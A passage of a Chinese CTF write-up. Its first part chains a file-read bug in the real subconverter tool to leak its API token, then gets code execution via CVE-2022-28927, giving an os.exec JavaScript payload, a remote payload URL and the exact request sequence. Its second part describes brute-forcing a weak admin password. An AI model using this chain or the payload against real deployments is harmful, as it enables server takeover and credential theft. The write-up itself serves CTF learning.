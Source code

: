 ```

```

我在front的转发中做出了限制，只能传入url target token参数。token是前台不可知的，容易想到需要读取到token。
git clone到本地搜索`getUrlArg.*"url"` 一共有7处地方用到了url参数。
读这7处，发现 `https://github.com/tindy2013/subconverter/blob/f9713b43b92dad81bc2e51a9fbe355d559fb9294/src/handler/interfaces.cpp#L1244` 的getScript函数直接把url参数 base64解码后传入fetchFile（`https://github.com/tindy2013/subconverter/blob/f9713b43b92dad81bc2e51a9fbe355d559fb9294/src/handler/multithread.cpp#L77`），而fetchFile中，对于本地文件，检查文件存在后将文件名传入fileGet（`https://github.com/tindy2013/subconverter/blob/f9713b43b92dad81bc2e51a9fbe355d559fb9294/src/utils/file.cpp#L20`），fileGet中只检查了路径逃逸，没有对pref.toml等重要文件做过滤操作，因此可以读取pref.toml泄露api_access_token从而访问需要token才能访问的接口。
getScript函数对应的是/qx-script路由，因此访问`/qx-script?url=cHJlZi50b21s`即可读取token。

3. 简单搜索得知，subconverter之前爆过任意代码执行cve（CVE-2022-28927），使用quickjs中带有的os.exec方法执行系统命令。subconverter作者通过让所有使用quickjs的地方全部需要token进行修复（`https://github.com/tindy2013/subconverter/commit/ce8d2bd0f13f05fcbd2ed90755d097f402393dd3`）。现在已经拿到了token，可以使用之前的cve来rce。
4. 由于限制了只能url target token参数，其他的rce点不可用。此处（`https://github.com/tindy2013/subconverter/blob/f9713b43b92dad81bc2e51a9fbe355d559fb9294/src/generator/config/nodemanip.cpp#L54`），对应/sub路由，如果传入的url为script:开头，便会将后面的内容当作一个本地路径，通过fileGet读取这个本地路径的文件作为js去执行里面的parse方法。此处最简单的getflag方法把flag写入到文件里，用之前的`/qx-script`进行读取。也可以反弹shell进行手动操作。

```
function parse(x){
	console.log("success")
	os.exec(["bash","-c","/readflag > flaaaaaag"])
}
```

5. 由于fileGet只能读取本地文件，这里还需要使用subconverter的缓存功能落地一个本地文件。简单测试或读源码得知，subconverter的缓存机制是在./cache目录建立一个名字为url之md5的文件用作缓存。例如：我的url是`http://vps/1.js`，那么缓存文件是`./cache/63ff1abb5db4fd2df0498c46a44565c8`。因此可通过script:包含本地js进行rce。

```
/sub?target=clash&url=http://vps/1.js
/sub?target=clash&url=script:cache/63ff1abb5db4fd2df0498c46a44565c8,1&token=xxx
/qx-script?url=ZmxhYWFhYWFn
```



### nanoScore

首先先注册一个账号，URL 通过 dirsearch 可以找到：/register.html。注册并登录后会自动跳转到 \flag 并提示需要 ADMIN 权限才可以获取 flag。

在登录状态下 dirsearch 可以发现新的子页面 \users，该页面有全部注册用户的用户名和创建日期。

注意到题目一血被取消的异常、一血提交者的 ID 伪造了主办方的 ID，以及题目 Hint 内写的 “First Blood is the sponsor, but it is very helpful to solve the problem”，种种迹象表明这个一血也是题目的一部分。

如果一血也是通过注册登录获得 flag，那么 TA 的账户一定创建于一血提交 flag 时间点之前，而通过 /users 我们可以发现只有前五个账户的注册时间是早于一血提交时间的，所以在这五个账户中一定有一个拥有 ADMIN 权限。

注意到第五个用户名为 Ha1c9on，而这个 ID 正是主办方常用 ID 之一，显得更加奇怪。对其进行弱密码爆破，得到其密码为 123456，此时登录其账户即可自动获得 flag，抄作业成功！

本题灵感来自于对各位 Web 选手做题习惯的观察。Web 选手在注册测试账户的时候会习惯性地随便输入方便的弱密码，但一旦他们完成了挑战，别人就可能通过 TA 的账户窃取到胜利的果实。实际上在本场 CTF 中除了出题人的账号被爆破成功以外，还有非常多的选手账号被弱密码爆破成功。
